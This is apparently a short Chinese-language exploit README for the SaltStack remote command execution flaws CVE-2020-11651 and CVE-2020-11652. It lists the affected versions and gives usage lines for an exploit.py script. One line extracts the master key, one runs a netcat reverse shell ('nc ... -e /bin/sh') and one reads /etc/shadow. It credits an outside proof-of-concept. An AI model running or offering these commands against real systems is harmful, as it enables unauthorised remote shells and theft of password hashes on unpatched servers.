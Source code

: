 # CVE-2020-11651、CVE-2020-11652 SaltStack远程命令执行漏洞

影响版本：  
- SaltStack < 2019.2.4
- SaltStack < 3000.2

exp:
```
python3 exploit.py --master vulip  #默认参数获取密钥
python3 exploit.py --master 192.168.115.130 --exec "nc 127.0.0.1 4444 -e /bin/sh"  执行命令
python3 exploit.py --master 192.168.115.130 -r /etc/shadow  #读文件
```

[@jasperla](https://github.com/jasperla/CVE-2020-11651-poc)